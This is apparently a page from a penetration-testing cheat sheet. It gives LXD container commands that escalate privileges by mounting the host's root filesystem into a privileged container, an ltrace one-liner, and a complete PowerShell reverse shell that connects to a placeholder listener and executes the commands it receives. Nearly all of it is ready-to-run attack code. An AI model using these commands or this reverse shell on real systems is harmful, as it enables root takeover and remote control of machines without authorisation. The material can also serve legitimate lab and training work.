 ### Target Machine
```
# Import image
lxc image import ./alpine.tar.gz --alias myimage

# List images
lxc image list

# Init
lxc init myimage ignite -c security.privileged=true

# Mapping / direcotry to image's /mnt/root
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

# Starting
lxc start ignite

# Spawn image's shell
lxc exec ignite /bin/sh

# Enter in mounted directory
cd /mnt/root/
```

# Reverse Engineering

### ltrace
```
ltrace {BINARY}
```



















# Windows Reverse Shell

### Powershell
```
# cat shell.ps1
$client = New-Object System.Net.Sockets.TCPClient("{LHOST}",{LPORT});$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 |Out-String );$sendback2 = $sendback + "# ";$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
